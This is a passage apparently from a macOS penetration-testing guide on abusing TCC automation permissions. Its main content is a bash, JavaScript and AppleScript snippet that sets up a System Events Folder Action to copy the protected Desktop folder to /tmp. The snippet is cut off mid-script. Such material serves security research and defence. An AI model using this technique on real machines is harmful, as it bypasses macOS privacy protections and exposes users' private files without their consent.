 <figure><img src="../../../../images/image (27).png" alt="" width="244"><figcaption></figcaption></figure>

> [!CAUTION]
> Note that because the **Automator** app has the TCC permission **`kTCCServiceAppleEvents`**, it can **control any app**, like Finder. So having the permission to control Automator you could also control the **Finder** with a code like the one below:

<details><summary>Get a shell inside Automator</summary></details>

Same happens with **Script Editor app,** it can control Finder, but using an AppleScript you cannot force it to execute a script.

### Automation (SE) to some TCC

**System Events can create Folder Actions, and Folder actions can access some TCC folders** (Desktop, Documents & Downloads), so a script like the following one can be used to abuse this behaviour:

```bash
# Create script to execute with the action
cat > "/tmp/script.js" <<EOD
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("cp -r $HOME/Desktop /tmp/desktop");
EOD

osacompile -l JavaScript -o "$HOME/Library/Scripts/Folder Action Scripts/script.scpt" "/tmp/script.js"

# Create folder action with System Events in "$HOME/Desktop"
osascript <<EOD
tell application "System Events"
    -- Ensure Folder Actions are enabled
    set folder actions enabled to true

    -- Define the path to the folder and the script
    set homeFolder to path to home folder as text
    set folderPath to homeFolder & "Desktop"
    set scriptPath to homeFolder & "Library:Scripts:Folder Action Scripts:script.scpt"
```